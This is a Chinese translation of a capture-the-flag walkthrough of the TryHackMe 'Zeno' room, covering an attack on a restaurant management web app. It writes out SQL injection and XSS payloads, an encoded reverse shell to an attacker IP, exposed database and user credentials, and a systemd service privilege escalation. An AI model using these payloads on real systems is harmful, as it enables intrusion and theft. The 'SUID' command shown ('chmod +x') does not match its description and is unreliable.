 # Zeno — THM Writeup(滥用服务文件错误配置)

> 原文：<https://infosecwriteups.com/zeno-thm-writeup-abusing-service-file-misconfigurations-3dd8ac94be24?source=collection_archive---------1----------------------->

大家好，今天我们要做来自 TryHackMe 的 [Zeno](https://tryhackme.com/room/zeno) 。它被评为中等，描述说“你有伟大的斯多葛派哲学家芝诺一样的耐心吗？试试看！”

# 端口扫描

nmap 出现了一些问题，因此它无法显示所有打开的端口。史茹建议我使用 Rustscan。谢谢史茹·:D

![](img/91366e7023ace15ef851930fb9af2239.png)

找到几个更多的端口。现在，我重新对这些端口进行了 nmap 扫描:

![](img/e29645fce090cecb36b2f8d63026ca61.png)

我们在端口 12340 上有一个 web 服务器。让我们检查一下。

# 网络服务器

在用不同的单词表破坏了一些目录后，我发现这些是有趣的:

```
/index.html (Status: 200)
/rms (Status: 301)
```

`/index.html`不返回任何有用的东西。 `/rms` 是餐厅管理系统。在后台打开 burp 代理浏览网站后，我发现了一些参数化的请求。我们可以在删除订单查询中做 SQLi:`http://10.10.200.163:12340/rms/delete-order.php?id=0' or 1-- -`

# sqlmap

我们有基于时间的 SQLi。运行 sqlmap 一段时间后，我收集了以下信息:

*   数据库名称:dbrms
*   找到一些表格:

![](img/e9695b2921e86e3b2fef52c3498f0e2a.png)

我在数据库里找不到任何有用的东西。而且要花很多时间。所以让我们看看是否还有其他漏洞。网站显示用户名(名字)。我试过查 XSS 和 SSTI。我找不到 SSTI，但发现它储存了 XSS。将有效载荷设置为`${{4*4}}<img src=x onerror=alert(1)>`以同时检查 XSS 和 SSTI。

![](img/9aab2cbea6502ca191f3b4a0e4595634.png)

存储 XSS。我们能偷饼干吗？

看看能不能偷其他用户的 cookies。创建一个新帐户，并在名字字段中上传一个 cookie stealer 有效负载。

![](img/c91a2b0f903badcd676eb90a07e39b24.png)

我用打嗝重复这个

现在我用这个账号登录，在网站上做了一些动作(比如发评论，买东西等等)，希望能被其他用户点击，这样我就可以抓取他们的 cookies 了。但是，即使等了几分钟，我也没有得到任何结果。所以可以肯定地说这是一条死胡同。让我们检查一下其他漏洞。

# 搜索漏洞

我在 searchsploit 里搜索餐厅管理系统漏洞。

![](img/6f1d4ae302bb3dbd1c4892173241f656.png)

有一个 RCE 漏洞可用。运行之后，我们在`[http://ip:12340/rms/images/reverse-shell.php](http://ip:12340/rms/images/reverse-shell.php)`上传了一个 webshell。使用`?cmd= command`执行命令。

以 URL 编码形式使用此有效负载:
`echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash`

这将运行以下反向 shell:

```
/bin/sh -i >& /dev/tcp/10.14.14.78/80 0>&1
```

我用打嗝解码器对有效载荷进行 url 编码。最终有效载荷是:

```
%65%63%68%6f%20%4c%32%4a%70%62%69%39%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4e%43%34%78%4e%43%34%33%4f%43%38%34%4d%43%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
```

在攻击者机器的端口 80 上运行一个监听器，并执行有效负载。

# 找到一个弹壳。现在怎么办？

得到一个 shell 后，我发现了一个包含密码的配置文件`/var/www/html/rms/connection/config.php`。

```
bash-4.2$ pwd
/var/www/html/rms/connection
bash-4.2$ cat config.php 
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
```

# Mysql 数据库枚举

在数据库中，有一个名为`members`的表。它包含一些密码散列和答案散列。我破解了几个，除了用户`edward`的。有趣的是，还有一个名为 edward 的系统用户。

以下是破解的哈希和密码:

```
Username|Email|Password|Security Answer
[Stephen|omolewastephen@gmail.com](mailto:Stephen|omolewastephen@gmail.com)|1234|deborah
[john|jsmith@sample.com](mailto:john|jsmith@sample.com)|jsmith123|middlename
[edward|edward@zeno.com](mailto:edward|edward@zeno.com)|COULD NOT CRACK|COULD NOT CRACK
```

我在爱德华的账户上试了试这些密码，但无法登录。

# 林豌豆

现在让我们运行 Linpeas

![](img/462db181284342c517d0f8ba6eb8c07b.png)

我们在`/etc/systemd/system/zeno-monitoring.service`上有写权限，也发现了新的凭证。

```
username=**zeno**,password=**FrobjoodAdkoonceanJa**
```

以当前用户的身份用这个密码尝试了`sudo -l`，但是没有成功。现在让我们尝试编辑服务文件。

# 根的服务文件配置错误

让我们在`/bin/bash`上添加 SUID 位，以便于查看。将 ExecStart 更改为如下所示:

```
ExecStart=/usr/bin/chmod +x /bin/bash
```

![](img/31db13d99f8105ec57f65611281a6377.png)

我们只需要更改 ExecStart 命令

现在，当这项服务再次启动时，我们将有一个 SUID `/bin/bash`。如果我们能以某种方式重新启动它，我们就能做到这一点。但是作为低特权用户，我们没有权限这样做。另一种方法是我们可以重启系统。我试图重新启动系统，但不能。我们需要 root 权限才能重新启动。

让我们试试之前在用户`edward`上找到的密码(`FrobjoodAdkoonceanJa`)。我们可以以 edward 的身份成功登录🎉。

检查 edward 的`sudo -l`权限，我们看到他可以重启系统。

![](img/a727b93b6bc1c32b62a33ba56109ee4e.png)

用户 edward 可以重启系统

用`sudo /usr/sbin/reboot`重启机器，现在当系统完全重启后，通过 ssh 以 edward 的身份登录。我们现在有了一个 SUID。使用它将权限提升到根用户

**![](img/98931b4a999877e06293a425fe512de7.png)**

**根:p**

**芝诺现在是 rooted✨**

**希望很容易坚持到底。下次见。
保重:)**

**在推特上找我: [@manash036](https://twitter.com/manash036)**